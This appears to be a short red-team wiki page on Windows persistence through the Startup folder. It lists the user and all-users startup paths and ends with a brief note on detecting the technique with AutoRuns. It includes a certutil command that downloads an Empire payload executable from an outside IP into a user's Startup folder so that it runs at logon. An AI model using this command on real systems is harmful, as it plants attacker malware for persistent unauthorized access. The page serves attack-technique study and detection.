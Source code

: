 # Startup Folder

**Placing a program within a startup folder will cause the program to execute when a user logs in.**

&#x20;There is a startup folder location for individual user accounts as well as a system-wide startup folder that will be checked regardless of which user account logs in. The startup folder path for the current user is:

```
C:\Users\[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

The startup folder path for all users is:

```
C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp
```

for example we can download and place the payload in startup folder with certutil.exe :&#x20;

```
certutil -urlcache -f -split http://10.1.1.5/empire.exe ‘C:\Users\tspeedman\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\empire.exe’
```

## <mark style="color:red;">**Detection**</mark>

use AutoRuns.exe tool and check for files located in users startup folder.
